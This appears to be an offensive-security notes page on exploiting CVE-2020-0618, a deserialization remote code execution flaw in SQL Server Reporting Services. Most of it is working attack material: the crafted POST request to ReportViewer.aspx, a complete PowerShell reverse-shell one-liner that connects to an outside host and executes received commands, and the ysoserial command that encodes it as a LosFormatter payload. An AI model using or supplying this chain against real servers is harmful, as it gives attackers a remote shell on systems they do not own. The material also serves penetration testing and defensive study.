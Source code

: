 RCE in SQL Server Reporting Services (SSRS)
===========================================

From: [https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/](https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/)


In the following request, the parameter `NavigationCorrector$ViewState` is deserialized
using the class `LosFormatter`:

```
POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: X

NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE
```

The payload can be a [reverse-shell](../reverse-shell.md) in `Powershell`. For instance,
the one liner from ([@samratashok](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)).
To exploit the `LosFormatter` deserializer, [`ysoserial`](https://github.com/frohoff/ysoserial) is used.

```powershell
$command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
.\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip
```

